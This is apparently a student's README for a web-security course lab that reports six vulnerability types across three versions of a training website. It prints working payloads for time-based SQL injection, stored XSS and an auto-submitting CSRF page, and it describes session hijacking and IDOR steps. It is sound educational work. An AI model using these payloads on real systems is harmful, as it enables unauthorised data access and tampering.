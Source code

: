 # Project 8 - Pentesting Live Targets

Time spent: **X** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:

* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each color is vulnerable to only 2 of the 6 possible exploits. First discover which color has the specific vulnerability, then write a short description of how to exploit it, and finally demonstrate it using screenshots compiled into a GIF.

## Blue

Vulnerability #1: SQL Injection (SQLi) 

Description:

![alt text](https://github.com/ethansam911/code_path_week_9/blob/main/blue_sql_injection.gif)

  * [x]  The Attacker is Injects a sql command instead of the proper Salesperson's ID Number.
  * [x]  Injected SQL Command:
  ```html
' OR SLEEP(10)=0--'
  ```
  * [x]  This causes the Database to wait for 5 seconds while querying the data. May be longer than 5 seconds to account for request and response times.



Vulnerability #2: Session Hijacking/Fixation
![alt text](https://github.com/ethansam911/code_path_week_9/blob/main/blue_session_hijacking.gif)

  * [x]  The Victim's session ID is obtained through the tool that is provided by the codepath
  * [x]  From the intercepted session, we can modify the session ID to the one we obtained from the Victim
  * [x]  The the attacker is logged in using the Victim's session ID
(Burpsuite can be used to intercept packets - view the session ID here as well and copy it down)



## Green

Vulnerability #1: User Enumeration

Description:

 * [x]  Seen below, the Green Website has the Username Enumeration error where the failure to login message differs for the Username that exists vs doesn't exist.
  * [x]  Using firefox's debugging tool, I was able to see that the Developer assigns two different classes, failed and failure, to the error message depending on the login senerio.
  * [x]  The "failure" class is applied an bold style in css while "failed" class doesn't. (Screen shots below)

![alt text](https://github.com/ethansam911/code_path_week_9/blob/main/green_login_1.png)

![alt text](https://github.com/ethansam911/code_path_week_9/blob/main/green_login_2.png)

![alt text](https://github.com/ethansam911/code_path_week_9/blob/main/green_user_enumeration.gif)


Vulnerability #2: Cross-Site Scripting (XSS)

Description:

* [x]  Attacker can inject an XSS in their feedback form.

* [x] Injected XSS Command    

```html
<script>alert('We got in!!!!!!!!');</script>
```
* [x]  This XSS runs once the account holder checks their feedback page

![alt text](https://github.com/ethansam911/code_path_week_9/blob/main/green_xss.gif)


## Red

Vulnerability #1: Insecure Direct Object Reference

Description:


  * [x]  Below GIF show an attacker getting access to the hidden user's accounts that the attacker is not permitted to view. 
  * [x]  This is done through modifying the "id" parameter in the URL's to change the GET request.
  * [x]  Below are the accounts that the Attacker is able to access:
![alt text](https://github.com/ethansam911/code_path_week_9/blob/main/red_attackers.gif)


Vulnerability #2: Cross-Site Request Forgery (CSRF)


  * [x]  Created a malicious page that utilizes the user's session to forge a request to the database:
```html
<html>
  <head>
    <title>NOT A FAKE FORM</title>
  </head>
  <body onload="document.my_form.submit()">
    <form action="https://35.184.199.7/red/public/staff/salespeople/edit.php?id=5" method="POST" name="my_form" style="display: none;" target="hidden_results" >
      <input type="text" name="first_name" value="GET REKT NOOB" />
      <input type="text" name="last_name" value="LOVE YOU BABY" />
      <input type="text" name="phone" value="777-777-7777" />
      <input type="text" name="email" value="KEKW@KEKW.COM" />
    </form>
    <iframe name="hidden_results" style="display: none;"></iframe>
  </body>
</html>
```
  * [x]  This page secretly makes a post request on page load and hides the outcome in a hidden iframe. 
  * [x]  As result, an account in the database is altered.

![alt text](https://github.com/ethansam911/code_path_week_9/blob/main/red_xss.gif)

## Notes

Spent a lot of time trying to find the correct input boxes for the given exploitation methods. 

